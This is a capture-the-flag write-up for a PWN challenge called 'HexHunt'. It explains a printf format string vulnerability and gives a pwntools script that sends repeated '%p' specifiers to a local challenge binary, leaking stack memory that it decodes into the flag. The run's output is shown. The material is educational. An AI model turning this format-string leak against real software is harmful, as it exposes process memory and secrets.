

# HexHunt 
**Challenge category**: PWN


# Description 
printf is indeed useful for printing messages to the terminal however it can cause security issues if misused, using custom format printf can represent data in different ways, for example you can print a number in decimal using %d or in hex using %x


# Solution 
## Manual 
Using a text editor we create a payload then send it to the binary, next we copy the output and convert it from hex to string using cyberchef


## PWN Tools
Using the following script we send 100 `%p` to the binary and parse the output to get the final flag
```
from pwn import *

p = process("../build/hexhunt")
#p.interactive()

p.sendline(b"%p"*100)

output = p.recv().decode()

output = output.replace("(nil)","")

flag = ""
for item in output.split("0x"):
	try:
		flag += bytes.fromhex(item).decode()
	except ValueError:
		...

flag = flag.replace("p%", "")
flag = ''.join([flag[i:i+8][::-1] for i in range(0, len(flag), 8)])
print (f"Here is your flag: {flag}")

```
**Output**
```
root@hostname:~/Desktop/CatchTheFutoor/challenges/PWN/hexhunt/writeup$ python3 exploit.py 
[+] Starting local process '../build/hexhunt': pid 16751
Here is your flag:   HEX_HUNT_CHALLENGE  
[*] Stopped process '../build/hexhunt' (pid 16751)

```


# Refs
- [format-exploit](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)